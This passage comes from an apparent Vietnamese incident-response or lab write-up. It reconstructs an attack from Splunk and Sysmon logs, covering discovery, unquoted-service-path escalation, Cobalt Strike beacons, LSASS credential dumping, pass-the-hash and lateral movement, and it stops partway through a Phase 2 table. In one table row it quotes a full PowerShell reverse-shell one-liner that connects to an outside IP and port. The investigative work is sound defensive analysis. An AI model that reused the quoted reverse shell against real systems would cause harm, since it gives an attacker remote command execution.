2026-04-20 23:57:05  n.hesham         Medium  0x1cacaf        │       └── [6704] C:\Windows\system32\net1  user /domain
2026-04-20 23:57:16  n.hesham         Medium  0x1cacaf        ├── [7888] C:\Windows\system32\cmd.exe /C net group "Domain Admins" /domain
2026-04-20 23:57:16  n.hesham         Medium  0x1cacaf        │   └── [7652] net  group "Domain Admins" /domain
2026-04-20 23:57:16  n.hesham         Medium  0x1cacaf        │       └── [7604] C:\Windows\system32\net1  group "Domain Admins" /domain
2026-04-20 23:57:28  n.hesham         Medium  0x1cacaf        ├── [2860] C:\Windows\system32\cmd.exe /C net group "Domain Computers" /domain
2026-04-20 23:57:28  n.hesham         Medium  0x1cacaf        │   └── [4868] net  group "Domain Computers" /domain
2026-04-20 23:57:28  n.hesham         Medium  0x1cacaf        │       └── [696] C:\Windows\system32\net1  group "Domain Computers" /domain
2026-04-20 23:57:39  n.hesham         Medium  0x1cacaf        ├── [7196] C:\Windows\system32\cmd.exe /C wmic service get name,pathname,startmode | findstr /i " "
2026-04-20 23:57:39  n.hesham         Medium  0x1cacaf        │   └── [6328] findstr  /i "DataSync"
2026-04-21 00:01:09  n.hesham         Medium  0x1cacaf        └── [6608] C:\Windows\system32\cmd.exe /C shutdown /r /t 5 /f
```

Sau lần khởi động lại đầu tiên, tiếp tục ghi nhận một chuỗi hoạt động PowerShell đáng ngờ trong phiên đăng nhập có logon id = 0x1cacaf trên host PAYOPS-WS-04. Các hành động discovery và kiểm tra thông tin hệ thống tương tự phiên trước xuất hiện, nhưng không ghi nhận lại bước tạo payload Sync.exe và khai thác unquoted service path. Đáng chú ý, vào 2026-04-20 23:57:39, attacker tiến hành kiểm tra trạng thái DataSyncPro, sau đó yêu cầu khởi động lại máy một lần nữa vào 2026-04-21 00:01:09. Chuỗi hành vi này có thể cho thấy attacker đang kiểm tra liệu quá trình khai thác unquoted service path đã kích hoạt payload chưa.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/20/2026:23:25:00" EventCode=1 (Sync.exe OR *DataSync Pro*)
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time
```

```spl
index=main host="PAYOPS-WS-04" EventCode=4688 (Sync.exe OR *DataSync Pro*)
| table _time SubjectUserName SubjectLogonId MandatoryLabel ParentProcessName NewProcessName
| sort _time
```





Chưa ghi nhận thời gian chính xác service độc hại Sync.exe được thực thi bởi service.exe mà chỉ ghi nhận service độc hại này spawn ra một child process là rundll32.exe (pid = 3904) chạy dưới danh tính SYSTEM vào 2026-04-21 00:14:25. Điều này cho thấy attacker đã khai thác thành công lỗi cấu hình của service DataSyncPro để thực thi payload với đặc quyền SYSTEM.

### 1.6. Process Sync.exe (pid = 3348)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:00:00" latest="04/21/2026:01:00:00" process_id=3348 OR parent_process_id=3348 OR SourceProcessId=3348
| stats count by EventCode
```

```spl
index=main host="PAYOPS-WS-04" earliest="04/21/2026:00:00:00" EventCode=4689
| where ProcessId=lower(tostring(3348, "hex"))
| table _time src_user Logon_ID ProcessId process
```



Thống kê các sysmon event liên quan đến process này



Chưa ghi nhận thời điểm process này kết thúc

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:00:00" latest="04/21/2026:01:00:00" process_id=3348 EventCode IN (17, 18)
| table _time EventDescription PipeName process_path ProcessId
```



Tạo và kết nối tới pipe có tên MSSE-586-server, trong đó pipe dạng MSSE-xxxx-server là tên named pipe mặc định do Cobalt Strike (cụ thể là từ Artifact Kit dùng cho các file EXE/DLL backdoor loader) tạo ra trong quá trình giao tiếp giữa các process (Inter-Process Communication - IPC)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:00:00" latest="04/21/2026:01:00:00" parent_process_id=3348 EventCode=1
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine Image
| sort _time
```



Vào 2026-04-21 00:14:25, khởi tạo process rundll32.exe (3904) không có thêm bất kì tham số nào

### 1.7. Process rundll32.exe (pid = 3904) — khởi chạy lúc 2026-04-21 00:14:25

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" (process_id=3904 OR parent_process_id=3904 OR SourceProcessId=3904) {c73af8d8-c152-69e6-5d00-000000005900}
| stats count by EventCode
```



Thống kê các sysmon event liên quan đến process này

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" process_id=3904 {c73af8d8-c152-69e6-5d00-000000005900} EventCode=3
| bin _time span=10m
| stats count by _time DestinationIp DestinationPort
```



Process rundll32.exe (pid = 3904) duy trì kết nối tới C2 100.52.249.75 trên port 443 (https) nhằm lẫn vào các hoạt động thông thường. Ngoài ra cũng ghi nhận kết nối tới port 135 (RPC endpoint mapper) trên 10.10.11.81 (COMP-FS-01) và 10.10.11.206 (BCHAIN-WS-11) để hỏi dịch vụ yêu cầu nằm trên port trong dải động 49152 đến 65535 nào rồi kết nối tới port tương ứng mà Endpoint Mapper trên máy đích trả về, đây là dấu hiệu cho thấy attacker đang thực hiện lateral movement sang các host nội bộ

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" process_id=3904 {c73af8d8-c152-69e6-5d00-000000005900} EventCode=3 DestinationIp IN (10.10.11.81, 10.10.11.206)
| table _time DestinationIp DestinationPort
| sort _time
```



Cụ thể hơn, process rundll32.exe (3904) kết nối tới RPC endpoint mapper trên COMP-FS-01 vào 2026-04-21 00:30:47, trên BCHAIN-WS-11 vào 2026-04-21 01:39:04 và 2026-04-21 01:44:43

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" process_id=3904 {c73af8d8-c152-69e6-5d00-000000005900} EventCode=11
| table _time TargetFilename
| sort _time
```



Drop các payload:

- 2026-04-21 00:52:31 -> C:\ProgramData\cptchbuild.bin

- 2026-04-21 01:19:48 -> C:\ProgramData\vodkastealer_emulator.ps1

- 2026-04-21 01:31:33 -> C:\ProgramData\vodkastealer_emulator.ps1

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" process_id=3904 {c73af8d8-c152-69e6-5d00-000000005900} EventCode IN (17, 18)
| table _time EventCode EventDescription PipeName process_path process_id RuleName
| sort _time
```



Kết nối tới các pipe dạng postex_xxxx (tạo bởi beacon con) nhận dữ liệu từ các beacon con rundll32.exe spawn ra để thực hiện các job post-exploitation

Ngoài các named pipe có dạng postex_xxxx, rundll32.exe (pid = 3904) còn tạo ba named pipe với tên: 48723c, 6be039 và e39a55. Mục đích của các pipe này chưa được xác định tại thời điểm quan sát. Tuy nhiên, các sự kiện process creation sau đó cho thấy một số process con sử dụng lệnh echo để ghi dữ liệu vào những pipe này, có thể các pipe này được sử dụng cho mục đích truyền tín hiệu hoặc trao đổi thông tin giữa các beacon.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:14:25" parent_process_id=3904 {c73af8d8-c152-69e6-5d00-000000005900} EventCode=1
| table _time CommandLine
| sort _time
```



Spawn ra các process sau:

#### Phase 1 — Discovery, reverse shell và beacon con

| Timestamp | Lệnh | Giải thích |
|---|---|---|
| 2026-04-21 00:16:00 | `C:\Windows\system32\cmd.exe /C whoami` | Kiểm tra danh tính user hiện tại |
| 2026-04-21 00:16:51 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 5328) |
| 2026-04-21 00:17:20 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 6008) |
| 2026-04-21 00:18:41 | `C:\Windows\system32\cmd.exe /C powershell -nop -w hidden -c "$c=New-Object Net.Sockets.TCPClient('165.245.213.184',4444);$s=$c.GetStream();[byte[]]$b=0..65535\|%%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=(New-Object Text.ASCIIEncoding).GetString($b,0,$i);$r=(iex $d 2>&1\|Out-String);$r2=$r+'PS '+(pwd).Path+'> ';$sb=([Text.Encoding]::ASCII).GetBytes($r2);$s.Write($sb,0,$sb.Length);$s.Flush()};$c.Close()"` | Khởi chạy 1 reverse tcp shell tới 165.245.213.184:4444, thực thi lệnh nhận được trong memory thông qua "iex" |
| 2026-04-21 00:22:16 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 9472) |
| 2026-04-21 00:23:56 | `C:\Windows\system32\cmd.exe /C net view /domain:NEXTGEN` | Liệt kê các máy trong domain NEXTGEN |
| 2026-04-21 00:26:16 | `C:\Windows\system32\cmd.exe /C net view /domain:NEXTGEN` | Liệt kê các máy trong domain NEXTGEN 1 lần nữa |
| 2026-04-21 00:26:45 | `C:\Windows\system32\cmd.exe /C nltest /dclist:NEXTGEN` | Liệt kê tất cả DC trong domain NEXTGEN |
| 2026-04-21 00:27:00 | `C:\Windows\system32\cmd.exe /C net group "Domain Computers" /domain` | Liệt kê tất cả máy tính trong domain |
| 2026-04-21 00:27:37 | `C:\Windows\system32\rundll32.exe` | Spawn ra beacon con (pid = 7004) |

##### Hoạt động của các beacon con rundll32.exe (5328, 6008, 9472, 7004)

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50" (process_id IN (5328, 6008, 9472, 7004) OR parent_process_id IN (5328, 6008, 9472, 7004) OR SourceProcessId IN (5328, 6008, 9472, 7004))
| stats count by EventCode
```



```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50" (process_id IN (5328, 6008, 9472, 7004) OR parent_process_id IN (5328, 6008, 9472, 7004) OR SourceProcessId IN (5328, 6008, 9472, 7004)) EventCode=17
| table _time EventDescription PipeName process_path process_id
| sort _time
```



Tạo các pipe dạng postex_xxxx để beacon cha kết nối tới và nhận dữ liệu

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50" parent_process_id IN (5328, 6008, 9472, 7004) EventCode=1
| table _time user ParentProcessId ParentCommandLine ProcessId CommandLine
```



Vào 2026-04-21 00:27:37, rundll32.exe (pid = 7004) khởi chạy cmd.exe với lệnh echo 8bebcc2a1c9 > \\.\pipe\48723c. Lệnh này chuyển hướng output của echo (ở đây là chuỗi 8bebcc2a1c9) vào named pipe 48723c được tạo bởi beacon cha rundll32.exe (pid = 3904) gần cùng thời điểm. Chuỗi ký tự được ghi vào pipe có thể đóng vai trò như là tín hiệu hoặc mã định danh phục vụ điều phối job post-exploit, tuy nhiên chưa rõ chức năng cụ thể là gì.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50" SourceProcessId IN (5328, 6008, 9472, 7004) EventCode IN (8, 10)
| table _time EventDescription GrantedAccess SourceProcessId SourceImage TargetProcessId TargetImage RuleName StartAddress CallTrace
| sort _time
```



Từ 2026-04-21 00:16:52 đến 2026-04-21 00:27:37, beacon rundll32.exe (5328) mở handle với full access tới lsass.exe rồi tạo 1 remote thread chạy code đã inject vào process lsass.exe, trong khi đó, 3 beacon còn lại bao gồm 6008, 9472 và 7004 chỉ mở handle tới lsass.exe với access mask = 0x1010 (PROCESS_QUERY_LIMITED_INFORMATION | PROCESS_VM_READ) đọc memory của lsass.exe. Đây là dấu hiệu thấy attacker đang thực hiện dump credentials từ lsass.exe

##### Đối chiếu Security log và hoạt động truy cập LSASS

Filter ra các Security log trong khoảng thời gian này

```spl
index=main source="WinEventLog:Security" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50"
| stats count by EventCode source
```

```spl
index=main source="WinEventLog:Security" host="PAYOPS-WS-04" earliest="04/21/2026:00:16:00" latest="04/21/2026:00:52:50" EventCode=4624
| table _time SubjectUserName TargetUserSid TargetOutboundUserName TargetOutboundDomainName Logon_Type TargetLogonId TargetLinkedLogonId status LogonProcessName AuthenticationPackageName ElevatedToken ProcessName process_id
| sort _time
```





##### Tài khoản k.mostafa.admin và lateral movement sang COMP-FS-01

Ghi nhận event id 4624 trên PAYOPS-WS-04 với logon type = 9 và credentials được sử dụng là của user k.mostafa.admin .

Trong đó sự kiện event 4624 – logon type 9 được ghi nhận khi một process hoặc người dùng khởi tạo một phiên đăng nhập bằng cách chỉ định thông tin xác thực thay thế (Explicit Credentials) khác với thông tin của người dùng đang đăng nhập hiện tại (tương tự cơ chế của lệnh runas /netonly). Khi phiên làm việc này được tạo, các thao tác cục bộ trên máy vẫn chạy dưới quyền tài khoản hiện tại, nhưng mọi kết nối mạng ra bên ngoài (outbound network access) sẽ sử dụng bộ thông tin xác thực mới vừa được nạp.

Trước đó, ta cũng ghi nhận process rundll32.exe (3904) kết nối tới RPC endpoint mapper trên COMP-FS-01 vào 2026-04-21 00:30:47, khoảng 3 phút sau sự kiện dump lsass và logon type 9 này

```spl
index=main source="WinEventLog:Security" host="COMP-FS-01" earliest="04/21/2026:00:27:25" EventCode=4624
| table _time IpAddress IpPort TargetUserName TargetUserSid TargetLogonId TargetLinkedLogonId Logon_Type status AuthenticationPackageName LogonProcessName ElevatedToken
| sort _time
```



Trong cùng thời điểm, vào 2026-04-21 00:30:45, ghi nhận logon thành công từ 10.10.11.252 (PAYOPS-WS-04) trên COMP-FS-01 với logon type 3 (network logon – dấu hiệu xác thực qua mạng để chạy lệnh), tài khoản được sử dụng là k.mostafa.admin (S-1-5-21-546352951-3134867265-500606796-1197), phương thức xác thực được sử dụng là NTLM thay vì kerberos. Nhiều khả năng sau khi đánh cắp được password hash của user k.mostafa.admin từ process lsass.exe, attacker đã thực hiện kĩ thuật pass-the-hash để xác thực và truy cập các hệ thống khác mà không cần biết plaintext password

```spl
index=main host="COMP-FS-01" earliest="04/21/2026:00:27:25" latest="04/21/2026:00:35:00" EventCode=4672
| table _time SubjectUserName PrivilegeList
```



k.mostafa.admin là user nằm trong các nhóm quản trị nên được gán privilege nâng cao như là SeDebugPrivilege hoặc SeImpersonatePrivilege

```spl
index=main host="COMP-FS-01" earliest="04/21/2026:00:27:25" latest="04/21/2026:00:35:00"
| stats count by EventCode source
```

```spl
index=main host="COMP-FS-01" earliest="04/21/2026:00:27:25" latest="04/21/2026:00:35:00" EventCode=7045
| table _time ServiceName ServiceType StartType ImagePath
```

```spl
index=main host="COMP-FS-01" earliest="04/21/2026:00:27:25" latest="04/21/2026:00:35:00" EventCode=5145 SubjectUserName=k.mostafa.admin
| table _time SubjectUserName SubjectLogonId ObjectType Opcode ShareName ShareLocalPath RelativeTargetName
```







Attacker đặt 1 binary độc hại với tên ngẫu nhiên là 2fdb156.exe vào ADMIN\$ share trên COMP-FS-01. Sau đó, beacon rundll32.exe (3904) kết nối tới RPC endpoint mapper trên COMP-FS-01 port 135 hỏi dịch vụ MS-SCMR nằm ở port động nào, sau khi nhận được port tương ứng, gọi hàm RPC để tạo 1 dịch vụ độc hại chạy binary vừa drop vào ADMIN$ share,  Image path của service: \\10.10.11.81\ADMIN\$\2fdb156.exe

```spl
index=main host="COMP-FS-01" earliest="04/21/2026:00:27:25" latest="04/21/2026:00:35:00" EventCode=4688 2fdb156.exe
| eval NewProcessId=tonumber(NewProcessId, 16), ProcessId=tonumber(ProcessId, 16)
| table _time SubjectUserName SubjectUserSid ProcessId ParentProcessName NewProcessId NewProcessName
```



Ngay sau khi thành công tạo service độc hại từ xa, vào 2026-04-21 00:30:46, service độc hại này được khởi chạy với pid = 3872 và spawn ra rundll32.exe (5600)

Attacker đã thành công lateral movement sang COMP-FS-01

#### Phase 2 — Cố gắng thực thi svc_update.exe 

| Timestamp | Lệnh | Giải thích |
|---|---|---|
